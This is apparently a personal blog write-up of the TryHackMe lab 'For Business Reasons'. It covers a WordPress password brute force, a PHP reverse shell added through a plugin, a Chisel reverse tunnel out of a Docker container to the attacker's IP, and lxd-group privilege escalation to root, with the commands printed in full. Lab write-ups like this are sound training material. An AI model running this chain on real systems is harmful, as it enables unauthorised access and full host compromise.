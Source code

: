 ```yaml
---
layout: post
title: CTF Log - For Business Reasons {THM}
description: A log of how I did the TryHackMe room For Business Reasons by MsMouse
summary: A log of the THM room "For Business Reasons"
tags: ctf log
minute: 9
---
```

<br/>

> {{ page.description }}

<br/>

# For Business Reasons
## Wordpress Login Bruteforce & Plugin Reverse Shell
Scanned and received responses from the following ports: 22, 80, 2377, 7946. Only port 80 registered as open. 

Found a Wordpress blog and noticed that the default/template posts were made by a user named `sysadmin.` So, I chucked a `rockyou.txt` bruteforce against that username while I further enumerated the site. 

Soon after, I landed a valid password. 

I chucked a `rockyou.txt` bruteforce against the username `sysadmin` while I researched that vulnerability and landed a valid password.

Edited an existing plugin to include a PHP reverse shell and enabled the plugin; got a shell as `www-data` in a Docker container.

## Proxying Through Docker Container
The Docker container I landed in was lacking a lot core networking utils like `ping`, `ip`, `ifconfig`, etc. After poking around for a while I stumbled upon [this](https://staaldraad.github.io/2017/12/20/netstat-without-netstat/) fantastic blog post by [Staaldraad](https://staaldraad.github.io/). In it they detail some research into parsing data from the `/proc/net/tcp` pseudofile to recreate the `netstat` and `id` commands. 

I use their `awk` script:

```bash
awk 'function hextodec(str,ret,n,i,k,c){
    ret = 0
    n = length(str)
    for (i = 1; i <= n; i++) {
        c = tolower(substr(str, i, 1))
        k = index("123456789abcdef", c)
        ret = ret * 16 + k
    }
    return ret
}
function getIP(str,ret){
    ret=hextodec(substr(str,index(str,":")-2,2)); 
    for (i=5; i>0; i-=2) {
        ret = ret"."hextodec(substr(str,i,2))
    }
    ret = ret":"hextodec(substr(str,index(str,":")+1,4))
    return ret
} 
NR > 1 {{if(NR==2)print "Local - Remote";local=getIP($2);remote=getIP($3)}{print local" - "remote}}' /proc/net/tcp 
```

to see the current open TCP connections. 

![Screenshot of aforementioned awk script and output.](/assets/media/forbusinessreasons/proc_net_tcp_netstat.png)

I noticed a connection between `172.18.0.3` and `10.13.1.225`. Since the latter is my attack machine's IP address I conclude that the former IP address belongs to the container that I'm in. From there I correctly assume that the gateway address of that subnet, `172.18.0.1`, belongs to the machine hosting the Docker container; I use the following to scan for certain ports on that address. 
```bash
curl -m 1 --include -v localhost:$x
```

- `-m 1` Setting a max timeout time for the curl attempt, prevents me from getting stuck on an unresponsive port, which would require me to `ctrl+c` and thusly break my non-pty shell.

After identifying an open port 22 on the host machine, I download [Chisel](https://github.com/jpillora/chisel) onto the docker container and launch the client command: 

```bash

$ ./chisel client 10.13.1.225:1234 R:2002:172.168.0.1:22
2021/09/13 21:34:59 client: Connecting to ws://10.13.1.225:1234
2021/09/13 21:35:00 client: Connected (Latency 184.290108ms)
```

And on my attacker machine, the server command:

```bash
┌──(kali㉿kali)-[/opt/chisel/binaries]
└─$ ./chisel_1.7.6_linux_amd64 server -p 1234 --reverse

2021/09/13 16:32:53 server: Reverse tunnelling enabled
2021/09/13 16:32:53 server: Fingerprint gOtbf9dlNJ2ecdo44g20iAMt+SSp8NkeAfp5CWKusaU=
2021/09/13 16:32:53 server: Listening on http://0.0.0.0:1234
```

I'm then able to ssh against my local machine and have my request proxied through to the victim host machine. The credentials for `sysadmin` are reused from the Wordpress blog.

## lxc Privileged, Recursive Container Filesystem Privesc
The privilege escalation technique is simple. My user, `sysadmin`, belongs to the `lxd` group which by default allows that user to use `lxc` to escalate privileges. 

I create an [Alpine](https://hub.docker.com/_/alpine) container on my attacker machine using [Distrobuilder](https://github.com/lxc/distrobuilder) then download the resulting files onto the victim machine. 

I then execute the following sequence of commands (Learned from [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)) to create a privileged docker container whose filesystem contains a recursive mount of the host machine's filesystem. This allows me to enter the docker container as `root` and act upon the host filesystem as `root`.

```bash
sysadmin@ubuntu:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
Image imported with fingerprint: 02aa7f299f733b42a726c44d6505645cf23e67ebcb31fda3ec24e8c2d4c0497b             
sysadmin@ubuntu:~$ lxc init alpine privesc -c security.privileged=true             
Creating privesc
sysadmin@ubuntu:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
sysadmin@ubuntu:~$ lxc start privesc
sysadmin@ubuntu:~$ lxc exec privesc /bin/sh
~ # id
uid=0(root) gid=0(root)
```
